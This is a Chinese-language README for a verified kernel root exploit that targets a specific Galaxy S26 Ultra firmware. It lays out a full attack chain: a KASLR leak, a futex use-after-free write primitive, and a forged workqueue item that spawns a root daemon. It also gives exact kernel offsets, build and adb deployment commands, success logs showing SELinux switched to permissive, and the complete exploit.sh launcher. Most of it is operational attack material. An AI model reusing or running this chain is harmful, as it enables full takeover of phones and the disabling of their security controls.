

# S9480ZCS1AZC7 移植与攻击链说明

> 项目：`ghostlock-s26-slim`（ghostlock-s26 的单目标精简版）
> 状态：✅ 已实机验证（uid=0 root + KernelSU late-load）

## 1. 目标设备与内核

| 项 | 值 |
|---|---|
| 设备 | Galaxy S26 Ultra 国行（SM-S9480） |
| Codename | `m3q` |
| SoC | Snapdragon 8 Elite（SM8850） |
| Android | 16，内核线 `cn` |
| 内核 | 6.12.30-android16-5-p875b76c-abogkiS9480ZCS1AZC7-4k |
| `_text` | `0xffffffc080000000` |
| 防护 | SELinux enforcing + Samsung DEFEX |

## 2. 移植来源与对比

- **基座项目**：`ghostlock-s26`（美版 SM-S942U1 / `m1q`，其原始 README 记录的
  misc/simple_attr + UMH 攻击链已跑通）。
- **本移植**：`ghostlock-s26-slim` 把目标从 m1q 美版换成 m3q 国行 S9480ZCS1AZC7，
  偏移量通过反编译该固件内核（`vmlinux-to-elf` + `kallsyms` + BTF）逐项重导。

### 与 ghostlock-s26（m1q 美版）的对比

| 对比项 | ghostlock-s26 原始（m1q） | ghostlock-s26-slim（m3q 国行） |
|---|---|---|
| 运行时型号匹配 | `params.c` + `params_table.c` + `kernel_line` 运行时绑定 | **删除**，`target.h` 单一事实来源 |
| 配置层 | `cfg_init/cfg_dump/cfg_bool` | **删除**，`ksu.skip` 改读 `KSU_SKIP` 环境变量 |
| boot 运行判断 | `bootclaim.c` 写 boot.log | **删除**，人工控制每次 boot 只跑一次 |
| 源码文件 | 15 个 `.c` | 11 个 `.c` |
| 攻击链 | KASLR → attr 载具 → UMH → KernelSU | **不变** |
| 偏移 | m1q 美版 | S9480ZCS1AZC7 重导 |

> ⚠️ S26 的另一个项目 `polygraphene` 走 pipe-flag → 覆盖
> `/vendor/bin/vendor_modprobe.sh` 路由，在 S9480 上被 Samsung DEFEX 以 EPERM
> 阻断（即使 SELinux permissive 也 EPERM）。`ghostlock-s26-slim` 走 attr-carrier + UMH
> 路由，不受该 DEFEX 限制，因此是本固件的可行路径。

## 3. 攻击链



1. **tracefs KASLR 探测**：S26（6.12）KASLR slide 为 2 MiB 对齐，取值范围
   `[0xf8fe00000, 0x2eafa00000)`，通过 `sched_blocked_reason` 事件 worker 返回地址
   泄漏恢复 slide（见 `targets/S9480ZCS1AZC7/slide.c` 特化版本）。
2. **KernelSnitch**：基于 futex hash 的 mm_struct 碰撞 + spray，在 direct map
   （`0xffffff8000000000` 起）上暴力枚举 mm_struct。
3. **GhostLock 写原语**：futex PI 竞态 + 被回收页 UAF，得到任意写。
4. **misc/simple_attr 载具**：伪造 misc 节点 + `simple_attr`/`debugfs_u64`
   的 get/set 函数，建立完整任意读写原语。
5. **伪造 workqueue work item**：构造假 `work_struct`/`subprocess_info` 注入
   `system_unbound_wq`，使 `call_usermodehelper_exec_work` 以 uid=0 启动
   `/data/local/tmp/cve-2026-43499-root`。
6. **root socket**：`su_daemon` 建立 root socket，提供 `-c` 命令执行通道。
7. **KernelSU late-load**：通过 root 通道以 bind-logcat 伪装执行 `ksud`，
   KMI `android16-6.12`。

## 4. 移植关键偏移（S9480ZCS1AZC7 独有）

> 完整定义见 `ghostlock-s26-slim/src/targets/S9480ZCS1AZC7/target.h`。

**内核镜像布局**

| 宏 | 值 | 说明 |
|---|---|---|
| `KIMAGE_TEXT_BASE` | `0xffffffc080000000` | `_text` |
| `KERNELSNITCH_IDENTITY_END` | `0xffffff9000000000` | direct map 上界 |
| `KIMAGE_VOFFSET_OFF` | `0x01911008` | 物理 slide 推导（cn/intl 线） |
| `PHYS_OFFSET` | `0x80000000` | DRAM 物理基址 |
| `PHYS_LOAD` | `0xc7800000` | 内核物理加载地址 |

**task_struct 布局（关键差异点）**

S9480ZCS1AZC7 回移了 `sched_ext` / `dl_server`，导致 task_struct 字段偏移相对
默认布局整体偏移——即使 kallsyms 地址完全一致。这些是编译期常量
（`prepare_skb_payload` codegen 对时序敏感），二进制必须与目标布局严格匹配。

| 字段 | 偏移 |
|---|---|
| `usage` | `0x40` |
| `prio` | `0x94` |
| `normal_prio` | `0x9c` |
| `sched_task_group` | `0x420` |
| `pi_lock` | `0x9ec` |
| `pi_waiters` | `0xa00` |
| `pi_top_task` | `0xa10` |
| `pi_blocked_on` | `0xa18` |

**关键符号偏移（相对 `_text`）**

| 符号 | 偏移 |
|---|---|
| `simple_attr_read` | `0x00484D3C` |
| `simple_attr_write` | `0x00484E8C` |
| `debugfs_u64_get` | `0x00675384` |
| `debugfs_u64_set` | `0x00675398` |
| `debugfs_u64_format` | `0x0148C338` |
| `default_llseek` | `0x0043FB54` |
| `call_usermodehelper_exec_work` | `0x000F8F0C` |
| `system_unbound_wq` | `0x01915250` |
| `selinux_state.enforcing` | `0x027AFB08` |
| `root_task_group` | `0x02763580` |
| `init_task` | `0x0252D040` |
| `misc_list` | `0x0264CFE0` |
| `uinput_misc` | `0x02671800` |

## 5. 构建

在 Docker NDK 中构建（默认 `PROJECT=S9480ZCS1AZC7`）：

```bash
docker run --rm --user root \
  -v /root/ghostlock-s26:/workspace \
  -w /workspace/ghostlock-s26-slim \
  teampgm/android-ndk:35-jdk17.0.19_10-ndk27.2.12479018-cmake3.22.1-ci \
  make
```

产物：

```text
preload.so              # exploit LD_PRELOAD 库
cve-2026-43499-root     # root 命令守护进程（UMH 启动）
```

## 6. 部署与提权命令（已实机验证）

核心命令见 `ghostlock-s26-slim/exploit.sh`。

```bash
# 1. 推送文件（KernelSU loader 使用自备 ksud）
adb push preload.so /data/local/tmp/preload.so
adb push cve-2026-43499-root /data/local/tmp/cve-2026-43499-root
adb push ksud /data/local/tmp/ksud
adb shell chmod 644 /data/local/tmp/preload.so
adb shell chmod 755 /data/local/tmp/cve-2026-43499-root /data/local/tmp/ksud

# 2. 触发 exploit（exploit.sh 的核心命令；supervisor 自动重试，失败可 KP 重启后重跑）
adb shell "LD_PRELOAD=/data/local/tmp/preload.so /system/bin/true"
# 或走脚本（会校验 3 个文件都存在 + 负载 < 7.5）
adb shell sh /data/local/tmp/exploit.sh

# 3. 验证 root
adb shell "/data/local/tmp/cve-2026-43499-root -c id"
# → uid=0(root) gid=0(root) context=u:r:kernel:s0
```

**只做临时 root（跳过 KernelSU，KSU_SKIP 模式）**：

```bash
adb shell "KSU_SKIP=1 LD_PRELOAD=/data/local/tmp/preload.so /system/bin/true"
```

成功标志：日志出现 `root chain complete`，以及
`kernelsu late-load succeeded`（未设 `KSU_SKIP` 时）。
KernelSU 授权需安装 `me.weishu.kernelsu` Manager APK。

## 7. 实机验证输出

```text
[*] === CVE-2026-43499 Jailbreak ===
[*] permission ok: /data/local/tmp/preload.so (0644)
[*] permission ok: /data/local/tmp/cve-2026-43499-root (0755)
[*] permission ok: /data/local/tmp/ksud (0755)
[!] load 10.09 >= 7.5, retry in 60s (1/10)
[*] load 5.74 < 7.5, exploit condition met
[*] running exploit (keep device idle)...
[+] preload supervisor pid=16300 attempts=16 base_delay=120000
[+] exploit attempt=1/16 pid=16301 delay=120000
[+] startup context pid=16301 uid=2000 euid=2000 gid=2000 egid=2000 attr=u:r:shell:s0 enforce=1
[+] target build: label=S9480ZCS1AZC7 exynos=0
[+] discovered worker caller: caller=0xffffffebee703878, candidate=0x2b6e600000
[+] kaslr slide resolved: source=tracefs, pid=16301, base=0xffffffebee600000, p0_offset=0x2b6e600000
[*] parameters cpu (16) mm_struct sz (500) mm slab order (3) thread cnt (8) collisions (4) mte disabled
[*] start finding collisions
[*] target    00000071e2e030c8
[*] found 3 collisions
[*] start bruteforcing
[*] [  0] start finding mm_struct [ffffff8000000000-ffffff8200000000]
[*] [  1] start finding mm_struct [ffffff8200000000-ffffff8400000000]
[*] [  2] start finding mm_struct [ffffff8400000000-ffffff8600000000]
[*] [  3] start finding mm_struct [ffffff8600000000-ffffff8800000000]
[*] [  4] start finding mm_struct [ffffff8800000000-ffffff8a00000000]
[*] [  5] start finding mm_struct [ffffff8a00000000-ffffff8c00000000]
[*] [  6] start finding mm_struct [ffffff8c00000000-ffffff8e00000000]
[*] [  7] start finding mm_struct [ffffff8e00000000-ffffff9000000000]
[*] done
[*] walk: fire target=0xffffffebf0c4cfe0 value=0xffffff803255c898
[*] walk: firing write target=0xffffffebf0c4cfe0, value=0xffffff803255c898
[*] walk: pulse seq=1 mode=sched ret=0 errno=0 tid=21428 walk_us=20
[*] walk pselect returned: ret=41, errno=0, calls=1, ok=1, delay=120000
[+] walk delivered: controller+data linked
[+] carrier: controller fd=3
[+] carrier: data fd=4
[+] misc_list topology rebuilt: head.next=0xffffffebee3dd090, walked=47 nodes
[+] carrier: misc_list intact
[+] carrier r/w primitives ready: ctrl=3, data=4, restore=1, proof=1
[*] umh helper verified, daemon socket checked
[*] allow_shell: disabled (default)
[*] resolved system_unbound_wq=0xffffff8001cf8e00
[*] worker pool idle confirmed: list=0xffffff8002479428/0xffffff8002479428, idle=9
[*] injecting work item, queueing first
[*] resolving selinux alias (post-queue)
[+] phys slide recomputed: kvoff=0xffffffeb26e00000 phys_base=0x00000000c7800000 p0=0x0
[+] selinux write alias verified (classic model): delta=0xffffffbfc7800000
[*] work item queued: work=0xffffff803255e000, entry=0xffffff803255e008, color=0, counters=1/1
[*] root escalation finished: wake=1, complete=1, retval=0, socket=1, uid=2000->0, selinux=enforcing->permissive
[+] root chain complete: uid=2000->0, selinux=enforcing->permissive, daemon=ready
[*] kernelsu loader stage staged
[*] kernelsu driver verified version=32601 flags=0x5 (su_allow=1 enable=1)
[+] kernelsu late-load succeeded
[+] temporary root privileges acquired
[+] built by nothin 2026.09.05
[+] exploit completed attempt=1/16
[*] exploit succeeded
[*] done
```

## 8. 风险（必读）

- 竞态提权概率性：失败可能触发 kernel panic，需重启后重跑（通常 1–2 次成功）。
- 临时 root 每次重启丢失；KernelSU late-load 同样不落盘，需重新执行。
- 运行前建议重启清空 slab、关闭后台应用、保持屏幕解锁且不操作。
- **仅限自己拥有的设备**。

## 9. 附：exploit.sh 完整代码

```bash
#!/system/bin/sh
#
# CVE-2026-43499 Jailbreak + KernelSU late-load
#
# Requirement: 1-minute load average (loadavg[0]) < 7.5.
#
# Usage (device-side, sh only):
#   adb push exploit.sh /data/local/tmp/exploit.sh
#   adb shell sh /data/local/tmp/exploit.sh
#
# Required files (paths overridable via env):
#   preload.so          exploit LD_PRELOAD library
#   cve-2026-43499-root root command daemon (spawned by kernel umh with --umh)
#   ksud                KernelSU late-load loader binary
#
# Tip: reboot first, close background apps, keep the screen unlocked and idle.
# Use only on devices you own or are explicitly authorized to test.

EXPLOIT=${EXPLOIT:-/data/local/tmp/preload.so}
ROOT_HELPER=${ROOT_HELPER:-/data/local/tmp/cve-2026-43499-root}
KSU_LOADER=${KSU_LOADER:-/data/local/tmp/ksud}

LOAD_LIMIT=${LOAD_LIMIT:-7.5}
LOAD_MAX_WAIT=${LOAD_MAX_WAIT:-10}
LOAD_INTERVAL=${LOAD_INTERVAL:-60}

log() { echo "[*] $*"; }
err() { echo "[!] $*" >&2; }

die() {
    err "$*"
    exit 1
}

ensure_mode() {
    f=$1
    want=${2:-755}
    mode=$(stat -c %a "$f" 2>/dev/null)
    if [ "$mode" = "$want" ]; then
        log "permission ok: ${f} (0${want})"
        return 0
    fi
    log "fixing permission for ${f}: ${mode:-missing} -> 0${want}"
    if chmod "0$want" "$f" 2>/dev/null; then
        mode=$(stat -c %a "$f" 2>/dev/null)
        if [ "$mode" = "$want" ]; then
            return 0
        fi
    fi
    err "failed to set 0${want} on ${f} (current: ${mode:-unknown})"
    return 1
}

to_tenths() {
    v=$1
    int=${v%.*}
    frac=${v#*.}
    first=${frac%"${frac#?}"}
    echo $(( ${int:-0} * 10 + ${first:-0} ))
}

check_load() {
    if command -v awk >/dev/null 2>&1; then
        awk -v lim="$LOAD_LIMIT" '{ if ($1 < lim) exit 0; exit 1 }' /proc/loadavg
        return $?
    fi
    load=$(cut -d' ' -f1 /proc/loadavg)
    [ "$(to_tenths "$load")" -lt "$(to_tenths "$LOAD_LIMIT")" ]
}

wait_low_load() {
    [ -r /proc/loadavg ] || { err "/proc/loadavg not readable"; return 1; }
    n=0
    while [ "$n" -lt "$LOAD_MAX_WAIT" ]; do
        if check_load; then
            load=$(cut -d' ' -f1 /proc/loadavg)
            log "load ${load} < ${LOAD_LIMIT}, exploit condition met"
            return 0
        fi
        load=$(cut -d' ' -f1 /proc/loadavg)
        err "load ${load} >= ${LOAD_LIMIT}, retry in ${LOAD_INTERVAL}s ($((n + 1))/${LOAD_MAX_WAIT})"
        sleep "$LOAD_INTERVAL"
        n=$((n + 1))
    done
    return 1
}

run_exploit() {
    log "running exploit (keep device idle)..."
    LD_PRELOAD="$EXPLOIT" /system/bin/true
    rc=$?
    if [ "$rc" -eq 0 ]; then
        log "exploit succeeded"
        return 0
    fi
    err "exploit failed (exit rc=${rc})"
    return 1
}

main() {
    log "=== CVE-2026-43499 Jailbreak ==="

    [ -f "$EXPLOIT" ] || die "missing file: ${EXPLOIT} (adb push it first)"
    ensure_mode "$EXPLOIT" 644 || die "cannot ensure 0644 on ${EXPLOIT}"
    for f in "$ROOT_HELPER" "$KSU_LOADER"; do
        [ -f "$f" ] || die "missing file: ${f} (adb push it first)"
        ensure_mode "$f" 755 || die "cannot ensure 0755 on ${f}"
    done

    wait_low_load || die "load stayed >= ${LOAD_LIMIT}, aborting"

    run_exploit || die "exploit failed (reboot device, close background apps, then retry)"

    log "done"
}

main "$@"
```
